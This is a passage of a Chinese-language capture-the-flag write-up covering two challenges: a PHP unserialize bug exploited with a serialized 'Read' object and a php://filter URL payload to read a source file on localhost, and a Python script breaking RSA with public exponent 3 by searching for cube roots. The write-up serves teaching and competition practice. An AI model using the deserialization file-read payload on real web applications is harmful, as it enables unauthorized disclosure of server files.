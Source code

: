 坑在这里

``` 
include($file); //class.php
        $pass = unserialize($pass);
        echo $pass;
```
这里在提交最后的payload的时候必须include  class.php
因为里面有tostring方法 能echo执行

所以最后的payload为
`http://localhost:8000/?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:57:"php://filter/read=convert.base64-encode/resource=f1a9.php";}`


## RSA
只给了nc ，那么8成是低加密指数攻击
``` 
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = '4ct10n'
from libnum import s2n,n2s
from gmpy import root
n = 92164540447138944597127069158431585971338721360079328713704210939368383094265948407248342716209676429509660101179587761913570951794712775006017595393099131542462929920832865544705879355440749903797967940767833598657143883346150948256232023103001435628434505839331854097791025034667912357133996133877280328143
e = 3
c = 2044619806634581710230401748541393297937319

i = 0
while 1:
    res = root(c+i*n,3)
    if(res[1] == True):
        print n2s(res[0])
        break
    print "i="+str(i)
    i = i+1

```


  [1]: 世安杯WP/1.png
